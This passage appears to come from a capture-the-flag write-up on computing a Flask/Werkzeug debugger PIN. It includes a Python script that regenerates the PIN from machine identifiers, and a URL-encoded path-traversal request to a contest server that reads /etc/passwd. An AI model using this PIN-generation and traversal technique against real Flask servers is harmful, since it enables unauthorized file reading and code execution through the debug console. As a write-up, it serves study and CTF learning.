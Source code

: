 It searched different files on different operating systems. On Mac in my case it looked up the Serial Number. On linux it just read _/etc/machine-id_.
Now I had everything to run the code. I ran it and I got the same pin number as the I had earlier.
```python
import hashlib 
from itertools import chain
import os
import getpass

pin = None
rv = None
num = None

probably_public_bits = [ 
  'h4ckua11' , # username 
  'flask.app' , # modname
  'Flask',
  '/usr/local/lib/python2.7/dist-packages/flask/app.py' 
  ] 

private_bits = [ 
  '191101483950643' ,
  'my serial number'
  ] 

h = hashlib.md5() 

# Bit is going through every thing in probably_public_bits and private_bits

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, unicode):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt") 

if num is None : 
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9] 

if rv is None : 
    for group_size in 5 , 4 , 3 : 
        if len (num)% group_size == 0 : 
            rv = '-' .join (num [x: x + group_size] .rjust (group_size, '0' ) 
            for x in range ( 0 , len (num), group_size)) 
            break 
        else : 
            rv = num

print (rv)
```
```
234-662-675
```
So I tried it on the server.
Since I knew that the _app.py_ was in _/home/web_3/_ I had to get two directories back. With simple url encoding I got to the _/_ directory (http://45.77.245.232:7004/read%2F..%2F../).
I read all the files that I needed for this:
```
probably_public_bits = [ 
  'web3_user' , # username http://45.77.245.232:7004/read%2F..%2F../etc/passwd
  'flask.app' , # modname Always the same 
  'Flask' , # Always the same
```